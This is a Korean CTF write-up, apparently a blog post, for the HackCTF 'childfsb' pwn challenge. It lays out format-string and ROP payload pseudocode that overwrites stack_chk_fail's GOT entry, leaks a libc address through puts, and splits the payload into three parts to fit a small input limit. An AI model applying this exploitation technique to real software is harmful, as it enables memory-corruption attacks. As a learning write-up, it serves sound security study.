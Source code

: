     payload += stack_chk_fail_got 주소

    payload += pop rdi; ret 주소

    payload += puts_got 주소

    payload += puts_plt 주소

    payload += "B"*( 0x40 * len(payload) )  // 카나리 변조에러를 일으키기 위해

    payload += main 주소

<br>

stack_chk_fail_got를 변조하여 ppppr로 가게끔한다. 그다음 pop을4번하게 되면 "pop rdi;ret"를 가리키는 주소로 ret하고 put_gos를 인자로하여 puts_plt를 호출하여 leak을 하는 방식이다.

위 코드는 한번에 삽입할 수 있지만 우리는 0x19사이즈만 입력 가능하므로 위 방식을 쪼개야 한다.

결국 위 babyfsb payload도 스택에 원하는 값을 넣고 적적한 pop,ret 같은 가젯을 이용해서 원하는 동작이 실행되게 하는 것이다.

<br>

따라서 우리는 

    1.
    payload1 = %(pop pop pop pop ; ret; 주소 10진수값)c %8 $ln +"AA" 
    payload1 += stack_chk_fail_got 주소
    ----------------------------------------------------------
    2.
    payload2 += pop rdi; ret 주소
    payload2 += puts_got 주소
    payload2 += puts_plt 주소
    ----------------------------------------------------------
    3.
    payload3 += "B"*( 0x40 * len(payload) )  // 카나리 변조에러를 일으키기 위해
    payload3 += main 주소

<br>

이런식으로 3번에 걸쳐서 해당 값을 스택에 넣어주면 된다. 물론 위의 페이로드 그대로 쪼개서 넣는 것은 안되고, 저런식으로 쪼개서 넣는다는 것이다. 

1. 3번 페이로드를 read로 buf(스택)에 넣고 main으로 돌아오기
2. 2번 페이로드를 read로 buf(스택)에 넣고 main으로 돌아오기
3. 1번 페이로드를 read로 buf(스택)에 넣고 main으로 돌아오기

이렇게 진행한다면 babyfsb 페이로드와 동일(?) 한 동작을 하는 페이로드를 쪼개서 삽입할 수 있다.

다시한번 말하지만 해당 페이로드를 단순히 쪼개면 안되고 이제 childfsb 문제에 맞게 쪼개서 넣어야 한다.


<br><br>

- **시나리오**
    1. **stack_chk_fail_got를 main으로 돌아가게 한다. 단  push rbp이 아닌  mov rbp,rsp로 돌아가게 한다. 그래야 stack_chk_fail_got를 main으로 덮어도, 스택이 유지된다.**

        ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20childfsb/Untitled%203.png)

        ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20childfsb/Untitled%204.png)
